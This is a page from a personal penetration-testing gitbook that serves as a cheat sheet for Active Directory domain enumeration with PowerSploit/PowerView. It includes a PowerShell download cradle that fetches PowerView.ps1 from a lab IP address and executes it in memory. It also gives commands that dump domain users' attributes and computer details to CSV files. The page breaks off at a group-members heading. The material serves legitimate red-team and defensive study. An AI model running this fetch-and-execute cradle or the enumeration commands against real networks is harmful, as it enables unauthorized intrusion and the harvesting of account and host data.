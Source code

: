 Domain Enumeration + Exploitation - burmat / nathan burchfield

# Domain Enumeration + Exploitation

This is just a living document of things I have needed for domain enumeration/exploitation

#

POWERSPLOIT[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='317'%3e%3cg data-evernote-id='318' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='319' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='320' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#powersploit)

Use the `dev ` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheat sheet, [check out HarmJ0y's](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1') `

##

Get Domain Users[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='355'%3e%3cg data-evernote-id='356' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='357' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='358' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#get-domain-users)

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv `

##

Get Domain Computers[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='371'%3e%3cg data-evernote-id='372' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='373' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='374' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#get-domain-computers)

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv `

##

Get Group Members[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='387'%3e%3cg data-evernote-id='388' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='389' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='390' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#get-group-members)
